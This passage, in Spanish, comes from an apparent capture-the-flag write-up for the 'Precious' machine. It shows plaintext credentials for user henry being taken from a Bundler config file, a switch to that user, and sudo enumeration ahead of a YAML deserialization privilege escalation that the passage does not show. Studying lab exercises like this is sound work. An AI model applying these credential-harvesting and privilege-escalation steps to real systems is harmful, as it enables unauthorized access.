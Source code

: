 ### Information Leakage

Nos encontramos actualmente con el usuario`ruby`, el cual investigando su directorio personal, logramos encontrar un archivo el cual parece contener las credenciales del usuario `henry`.

```bash
ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb 14 16:09 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb 14 16:09 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ ls -l
total 4
-r-xr-xr-x 1 root ruby 62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Tratamos de acceder con las credenciales obtenidas del usuario`henry` y verificamos del correcto acceso y de la visualización de la flag de **user.txt**.

```bash
ruby@precious:~/.bundle$ su henry
Password: 
henry@precious:/home/ruby/.bundle$ cat /home/henry/user.txt 
0c1e200d2***********************
```

## Privilege Escalation

### Abusing sudoers privilege - YAML Desarialization Attack

Revisaremos los grupos de los que forma parte el usuario actual y si disponemos de algún permiso de `sudoers`. Al verificar los privilegios de `sudoers`, nos encontramos que podemos ejecutar como `sudo` sin proporcionar credenciales el script que se encuentra en `/opt/update_dependencies.rb`.

```bash
henry@precious:~$ id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
